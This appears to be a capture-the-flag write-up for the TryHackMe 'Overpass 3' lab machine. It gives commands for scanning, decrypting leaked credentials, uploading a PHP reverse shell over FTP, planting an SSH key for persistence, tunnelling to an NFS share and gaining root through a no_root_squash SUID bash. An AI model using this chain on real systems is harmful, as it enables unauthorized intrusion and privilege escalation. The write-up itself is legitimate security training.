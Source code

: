 ### THM - Overpass 3 - Hosting
Difficulty: Medium 

#### Recon
We can start with nmap scan command:

```sudo nmap -vv -A -Pn -p- -oA overpass3_nmap 10.10.205.247```

![nmap_running](img/nmap_still_running.png)

While nmap still running we can see that port 80, 21, 22 is open. We can start doing some basic manual recon on the webserver port 80.

![source](img/web_source.png)

On the web page, it is safe to assume that paradox, Elf, MuirlandOracle, and James are the users. There is really nothing else to do on the web page. Before we move on to the nmap scan results, lets start our ffuf scan on the webserver. 

```ffuf -u http://10.10.205.247/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ic -c```

Now while ffuf is running, We can move on to the nmapp scan results.

![nmap_results](img/nmap_results.png)

We can see that port 21 is open and running vsftpd 3.0.3. However, we can see that anonymous login is disabled. We can also see that port 22 is open and running OpenSSH 8.0 and port 80 is running Apache httpd 2.4.37. Let's check on the ffuf scan results.

![ffuf_results](img/ffuf_scan.png)

We can see that there is a directory called 'backups'. Let's check on that.

![backups](img/backups_dir.png)

Let's download that backup.zip file and see what's inside.

![backup_zip](img/backup_zip_folder.png)

We can see that there is an excel gpg encrypted file and a private key. Let's try to decrypt the file using the private key and convert it to csv file so we can open it.

```gpg --import priv.key```

```gpg --output CustomerDetials.xlsx --decrypt CustomerDetials.xlsx.gpg```

```ssconvert CustomerDetials.xlsx CustomerDetials.csv```

![gpg_decrypt](img/gpg_decrypt.png)

![csv_file](img/customer_details.png)

#### Exploit

We can see that there are some usernames and passwords in the csv file. We also know that paradox and muirlandoracle are the users from the web page. Let's try to login to the ftp server using the credentials we found.

```ftp 10.10.205.247```
 
 After we login to the ftp server, we can see that it is the /var/www/html directory. It looks like we have permission to upload files. Let's upload a reverse shell and try to get a shell. We will be usig the php reverse shell from pentestmonkey [php_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Let's upload the shell and start a netcat listener.

![ftp_upload](img/second_ftp.png)

 ```nc -lvnp 4444```

 and call the shell from the browser. ```10.10.205.247/shell.php```

and we got a shell.

![shell](img/1foothold.png)

Since we have a foothold, let's make this shell feel a little more comfortable. We can use python to get a better shell.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

```stty raw -echo; fg```

![better_shell](img/better_shell.png)


#### Privilege Escalation

We can see that we are in the apache user with limited permissions. However, we can try to find a web flag. So let's do some enumeration. This flag is well hidden but after a while of enumeration, we can see that it is in ```/usr/share/httpd/web.flag```. The easier way to find this flag is to use the find command.

```find / -name *flag* 2>/dev/null```

Now that we found it, let's cat it and get the flag.

![web_flag](img/web_flag.png)

First flag down. Let's see what other users are on this host. We can use the command ```cat /etc/passwd``` to see all the users on the host.

![users](img/passwd.png)

We can see that paradox user is on there. Let's see if we can ssh to paradox to get user flag.

![ssh_paradox](img/ssh_paradox_failed.png)

Host doesn't allow ssh login with password. Let's try to switch to paradox user with su command.

![su_paradox](img/su_paradox.png)

Great!...but we can see that there is no flag in paradox home directory. There is another user called James. However, we dont have James password. Let's do some more enumeration.

*Extra

Since we can't ssh to paradox with password, we can try to create a private key on our machine and add the generated public key to authorized_key in .ssh folder in paradox home directory. This way we can ssh to paradox without password.

```ssh-keygen paradox```

Let's add our public key to authorized_key file.

```echo {OUR_GENERATED_PUBLIC_KEY.pub} >> .ssh/authorized_keys```

Then let's try to ssh to paradox.

```ssh paradox@10.10.205.247 -i paradox```

![ssh_paradox](img/ssh_paradox.png)

Great! we can ssh to paradox with our private key. Now let's do some more enumeration to gain access to James account. 

After some basic enum we can see that there is a NFS share on the host with misconfigured permissions. Let's mount the share and see what's inside.

![nfs_share](img/nfs_share.png)

Let's try to mount the share.

```mkdir /tmp/mount```

```sudo mount -v -t nfs 10.10.205.247:/ /tmp/mount```

![failed_nfs](img/failed_nfs.png)

We got "mount.nfs: mount(2): No route to host" error. Let's see if we can list the nfs mount on the host.

```showmount -e 10.10.205.247```

And we get "clnt_create: RPC: Unable to receive" error. Let's check rpcinfo to see if rpcbind is running.

```rpcinfo -p```

![rpcinfo](img/rpcinfo.png)

We can see that rpcbind is running and nfs is on the normal nfs port 2049. After trying to run command ```netstat -l``` to see the listening port, we can see that the host doesn't have netstat installed. Hmm...let's try to reverse ssh to the port and try to mount the share again.

```ssh paradox@10.10.205.247 -i paradox -L 2049:localhost:2049```

```sudo mount -v -t nfs localhost:/ /tmp/mount```

![nfs_mount](img/mounted_nfs.png)

Let's go ahead and get that user flag.

![user_flag](img/user_flag.png)

We can also find a private key in the share. Let's try to use that key to ssh to James account.


```ssh james@10.10.205.247 -i /tmp/mount/.ssh/id_rsa```

Now that we have user flag and ssh to James user, let's try to get root flag. We know that this share is configured with "no_root_squash" option. We use it to get root shell by upload our own bash with SUID bit set and root as owner. Let's create a bash file with SUID bit set and root as owner.

```cp /bin/bash .```

```chmod +xs bash```

![james_folder](img/james_folder.png)

And we can run it with this command to get root.

```./bash -p```

![gcc_error](img/gcc_error.png)

However, we get gcc error. Let's try to use bash from the host.

On James.
```cp /bin/bash .```

```chmod 777 bash```

On our machine.

```chown root bash```

```chmod +xs bash```

On James.

```./bash -p```

![root_shell](img/root_shell.png)

Great! We are now root. Let's get the root flag.

![root_flag](img/root_flag.png)

And we got the root flag. Thanks for reading.


